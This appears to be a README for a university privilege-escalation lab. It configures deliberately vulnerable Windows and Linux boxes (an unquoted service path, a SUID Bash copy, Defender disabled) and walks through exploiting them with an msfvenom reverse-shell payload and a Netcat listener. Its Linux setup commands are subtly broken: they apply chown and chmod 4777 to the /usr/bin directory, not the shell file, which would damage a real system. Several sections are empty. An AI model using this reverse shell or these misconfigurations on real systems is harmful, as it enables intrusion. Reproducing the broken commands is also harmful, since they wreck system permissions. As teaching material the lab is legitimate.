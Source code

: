 # Security First Principles: Least Privilege Labs
Created for DSU's Cyber Operations I course

| Box Name | Type |
| -------- | ------- |
| Linux Exercises | Kali 2023.3 |
| Windows Exercises | Windows 10 Pro build 19044 |
* Windows Defender is disabled via Group Policy on the Windows Exercises box.

## Lab Exercise 1: Widnows Horizontal/Vertical PrivEsc
### Configuration
#### Horizontal PrivEsc via Unquoted Service Path
1. Add two additional standard users the box, with different passwords. Use the only one of the users for the following steps.
2. Create a "Step 4" folder on the desktop of the selected user.
3. Create a path in Program Files three folders deep with a dummy service executable (`C:\Program Files\[Level 1 Name]\[Level 2 Name]\[Dummy Service Executable]`).
     * Ensure the `Level 2 Name` contains a space (ex. `Automated Service`)
     * This dummy executable won't be used, so pretty much any executable that isn't a shell works. I used `iexplore.exe`.
5. Edit the `Level 1 Name` folder properties to grant all users write permission (Properties > Security > Users > Edit > Write).
6. Create a new registry key in `HKLM\SYSTEM\CurrentControlSet\Services`. This key will be the service name.
7. Add the following values to the key:

    | Name | Type | Data |
    | -------- | ------- | ------- |
    | (Default) | REG_SZ | (value not set) |
    | DisplayName | REG_SZ | [Service Name] |
    | ErrorControl | REG_DWORD | 0x00000001 (1) |
    | ImagePath | REG_EXPAND_SZ | [Path to Dummy Service Executable **without quotes**] |
    | ObjectName | REG_SZ | .\\[User Name] |
    | Start | REG_DWORD | 0x00000002 (2) |
    | Type | REG_DWORD | 0x00000010 (16) |

8. Restart the box.
9. Open the Services MMC snap-in. The `[Service Name]` should appear in the list. Ensure the startup type is set to Automatic so it executes when the box starts.

#### Vertical PrivEsc

### Exploitation
#### Horizontal PrivEsc via Unquoted Service Path
1. Log on to the second user created in Configuration step 1.
2. Create a simple TCP reverse shell with `msfvenom` on the Linux Exercises box:
      * In the example above, this would be `Automated.exe`.
      * There is a preconfigured binary with the IP address of the Linux Exercises box and name `Automated.exe` in the Windows PrivEsc archive in the repo.
          * Password: `infected`

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP address of Linux Exercises box> LPORT=1337 -f exe -o [First word of Level 2 Name].exe
```

2. SCP the generated file from the LInux Exercises box to `C:\Program Files\[Level 1 Name]` on the Windows Exercises box.
3. Start a Netcat listener on the Linux Exercises box with `nc -nvlp 1337`.
4. Restart the Windows Exercises box. A Windows shell should spawn in the Netcat session with the permissions of the first user. Use `whoami` to verify this.

#### Vertical PrivEsc

## Lab Exercise 2: Linux Horziontal PrivEsc via SUID
### Configuration
1. Add two additional users the box, with different passwords. These users should not be able to use `sudo`. Use the only one of the users for the following steps.
2. Create a "Step 4" folder on the desktop of the first user.
3. Build the modified Bash shell in the Linux PrivEsc folder in the repo with `./configure` and `make`. Name it `shell`.
      * This modification always runs the Bash shell in privileged mode (so that the SUID bit won't be [ignored by default](https://www.gnu.org/software/bash/manual/bash.html)).
      * A pre-built `shell` for the Linux Exercises box is also in the folder.
4. Place the `shell` in the `/usr/bin` folder.
5. Set the owner and group (if applicable) and the SUID bit on the file:
      * If set correctly, permissions should be `-rwSrwxrwx` and the user and group will be the first user.

```
chown [first user] /usr/bin
chgrp [first user] /usr/bin
chmod 4777 /usr/bin
chmod u-x /usr/bin
```

### Exploitation
1. Log on to the second user created in Configuration step 1.
2. Execute the `/usr/bin/shell` file. A Bash shell should spawn with the permissions of the first user. Use `whoami` to verify this.

## Lab Exercise 3: Linux Vertical PrivEsc

## Puzzler: Correcting PrivEsc Vulnerabilities

